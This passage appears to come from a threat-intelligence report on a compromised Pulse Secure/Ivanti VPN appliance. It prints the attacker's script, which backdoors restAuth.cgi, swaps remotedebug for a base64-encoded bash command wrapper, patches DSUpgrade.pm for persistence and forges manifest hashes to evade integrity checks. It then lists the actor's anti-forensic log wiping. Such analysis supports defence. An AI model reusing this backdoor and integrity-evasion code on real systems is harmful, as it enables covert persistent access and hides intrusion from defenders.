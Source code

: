 ```
\$r7;/g' /home/webserver/htdocs/dana-na/auth/restAuth.cgi

grep -q 'sub AccessAllow()' echo "$sh" >> 
/home/webserver/htdocs/dana-na/auth/restAuth.cgi

sed -i "s/$(grep /home/webserver/htdocs/dana-na/auth/restAuth.cgi 
/home/etc/manifest/manifest -a |grep -oE '[0-9a-f]{64}')/$(/home/bin/openssl 
dgst -sha256 /home/webserver/htdocs/dana-na/auth/restAuth.cgi |grep 
-oE '[0-9a-f]{64}')/g" /home/etc/manifest/manifest;

#pkill cgi-server


# remotedebug
cp -f /home/bin/remotedebug /home/bin/remotedebug.bak
echo IyEvYmluL2Jhc2gKaWYgWyAiJDEiID09ICItYyIgXTsgdGhlbgoJYm
FzaCAiJEAiCmVsc2UKCWV4ZWMgL2hvbWUvYmluL3JlbW90ZWRlYnV
nLmJhayAiJEAiCmZpICAK|base64 -d >/home/bin/remotedebug
chmod 777 /home/bin/remotedebug.bak
sed -i "s/$(grep /home/bin/remotedebug /home/etc/manifest/manifest 
-a |grep -oE '[0-9a-f]{64}')/$(/home/bin/openssl dgst -sha256 
/home/bin/remotedebug |grep -oE '[0-9a-f]{64}')/g" 
/home/etc/manifest/manifest;

# upgrade
cp -f /home/perl/DSUpgrade.pm /home/perl/DSUpgrade.pm.bak
sed -i 's/popen(\*FH, \$prog);/processUpgradeDisplay(\$prog, 
\$console, \$html);return 0;popen(\*FH, \$prog);/g' 
/home/perl/DSUpgrade.pm
grep -q 'sub processUpgradeDisplay()' || echo "$up" >> 
/home/perl/DSUpgrade.pm
sed -i "s/$(grep /home/perl/DSUpgrade.pm /home/etc/manifest/manifest 
-a |grep -oE '[0-9a-f]{64}')/$(/home/bin/openssl dgst -sha256 
/home/perl/DSUpgrade.pm |grep -oE '[0-9a-f]{64}')/g" 
/home/etc/manifest/manifest;
pkill cgi-server
```

### Anti-Forensics

Following exploitation, the threat actor has been observed removing evidence of exploitation from several key areas of the appliance:

1.  Clearing kernel messages using `dmesg` and removing entries from the debug logs that are generated during the exploit
    
2.  Deleting troubleshoot information packages (state dumps) and any core dumps generated from process crashes
    
3.  Removing log application event log entries related to syslog failures, internal ICT failures, crash traces, and certificate handling errors
    